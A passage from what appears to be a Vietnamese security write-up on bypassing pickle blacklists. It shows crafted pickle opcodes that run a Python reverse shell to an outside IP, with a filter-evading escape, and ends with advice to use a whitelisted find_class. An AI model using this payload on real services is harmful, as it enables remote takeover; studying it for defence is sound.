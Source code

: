 ```python
    b"p5\n"
    b"(" b"V__builtins_\u005f\n" b"t" b"R"
    b"p6\n"
    b"g1\n" b"(" b"g6\n" b"V__getitem_\u005f\n" b"t" b"R"
    b"p7\n"
    b"(" b"Veval\n" b"t" b"R"
    b"p8\n"
    b"(V__import_\u005f('o\u0073').sy\u0073tem(\"export RHOST='13.213.213.17';export RPORT=10774;python -c \\\"import sy\u0073,socket,o\u0073,pty;s=socket.socket();s.connect((o\u0073.getenv('RHOST'),int(o\u0073.getenv('RPORT'))));[o\u0073.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn('bash')\\\"\")\n"
    b"t"
    b"R"
    b"."
)
print(base64.b64encode(raw))
```

![](images/bypass_pickle_image18.png)

### Cách phòng chống các lỗ hổng liên quan tới pickle

Đơn giản và hiệu quả nhất là không pickle các dữ liệu bên ngoài, thay vào đó có thể sử dụng json hay yaml. Tuy nhiên, vẫn có những trường hợp phức tạp bắt buộc sử dụng pickle để tái tạo lại các cấu trúc object phức tạp, thì ta có thể override lại find_class với whilelist chặt chẽ chứ không dùng blacklist như ví dụ được phân tích chẳng hạn.

### References
